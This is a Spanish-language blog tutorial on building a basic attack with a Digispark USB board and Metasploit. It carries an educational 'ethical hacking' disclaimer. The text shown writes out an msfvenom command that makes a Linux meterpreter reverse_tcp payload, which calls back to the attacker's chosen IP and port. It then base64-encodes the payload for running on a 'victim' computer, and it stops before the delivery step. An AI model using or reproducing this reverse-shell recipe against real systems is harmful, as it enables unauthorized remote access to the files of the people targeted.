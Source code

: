 ```yaml
---
layout: post
title: Basic Exploit with Digispark

---
```

# Introducción
En el dia de hoy explicaremos como hacer una técnica de explotación básica ayudandonos de Digispark y metasploit framework.
Este post lo he creado en Español para difundir mi idioma y dar a conocer el mundo de la seguridad informática en Español.
Para comenzar necesitaremos lo siguiente:  
  - Digispark: [amazon](https://www.amazon.es/AZDelivery-Digispark-Kickstarter-Desarrollo-compatible/dp/B076KS2QDS/ref=asc_df_B076KS2QDS/?tag=googshopes-21&linkCode=df0&hvadid=301006161094&hvpos=1o1&hvnetw=g&hvrand=3258160503763513062&hvpone=&hvptwo=&hvqmt=&hvdev=c&hvdvcmdl=&hvlocint=&hvlocphy=9047059&hvtargid=pla-602427609241&psc=1)
  - Disposición Linux, en mi caso uso ubuntu 18.04
  - Metasploit Framework
  
Cabe mencionar que necesitamos comprar el Digispark, yo lo compré en Amazon, 3 por casi 10 euros y sin duda merece la pena, se puede hacer
tales cantidades de proyectos..

Todo lo que explico es con fines educativos, no me hago responsable del mal uso que le hagais a este post, simplemente me gusta enseñar las habilidades de hacking ético que conozco con el fin de que aprendais como podeis ser atacados y saber defenderos.

# Construyendo el exploit
Para crear el exploit debemos usar la herramienta msfvenom y excribir la siguiente linea de código: 

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP A USAR) LPORT=(PUERTO A USAR) -f elf > exploit`

Como podemos observar lo que crearemos es un exploit el cual, al ejecutarse en el equipo victima (con distribución linux) nos abrira una conexión tcp
la cual nos permitirá infectar el equipo y con meterpreter poder acceder a todos sus archivos. 
En la IP cada uno pondra su ip, se puede mirar abriendo la terminal y escribiendo el siguiente comando `ifconfig`, dependiendo si teneis vuestro computador enchufado por cable o lo teneis inalámbrico estará en una interfaz o otra. Esa IP es privada, es decir, solo os servirá para vuestra propia red, no obstante se puede crear este exploit y sacarlo fuera de la red local(LAN), pero eso lo dejare para otro post. Dicho esto yo usare mi IP privada y un puerto efímero, el 5000 por ejemplo.

![Foto1](/images/foto1.png)
 
Bien, para terminar de construir este exploit hay que tranformarlo a base64 para poder ejecutarlo directamente en la computadora victima, asique escribiremos lo siguiente: `base64 exploit > exploit.b64`. Podemos comprobar que ha sido construido satisfactoriamente con el comando `cat exploit.b64`.

![Foto2](/images/foto2.png)



